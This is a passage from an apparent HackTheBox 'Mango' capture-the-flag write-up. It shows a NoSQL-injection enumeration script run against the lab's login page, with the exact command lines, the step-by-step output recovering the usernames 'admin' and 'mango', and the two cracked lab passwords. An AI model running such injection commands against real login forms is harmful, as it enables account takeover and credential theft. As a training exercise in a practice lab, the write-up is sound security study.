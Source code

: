 ## exploitation

After a few tries I gave up. No sql injection possible. I took some research on [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
There is a way to exploit NoSQL databases, maybe that's the key. So after a while I found the repository from [an0nlk](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration).
The python script sends every character in a special query form to the server and wait for the answer.

![6_1_nosql_injection_debug.png](../../../../assets/images/hackthebox/mango/6_1_nosql_injection_debug.png)

If the character match the first one of the usernames one, then the server returns a 302.
So now we know the username starts with an 'a'. So the next step is to start over.

![6_2_nosql_injection_debug.png](../../../../assets/images/hackthebox/mango/6_2_nosql_injection_debug.png)

This will run until no more character match.

```bash
kali@kali:~$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep username -m POST
...
Pattern found that starts with 'a'
Pattern found: ad
Pattern found: adm
Pattern found: admi
Pattern found: admin
username found: admin
...
Pattern found that starts with 'm'
Pattern found: ma
Pattern found: man
Pattern found: mang
Pattern found: mango
username found: mango
...
2 userne(s) found:
admin
mango

kali@kali:~$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep password -m POST
...
2 password(s) found:      
h3mXK8RhU~f{]f5H          
t9KcS3>!0B#2
```

So finally, credentials. But in the wrong order, with this technique the output haven't to match. So we have to try.

```bash
admin t9KcS3>!0B#2
mango h3mXK8RhU~f{]f5H
```
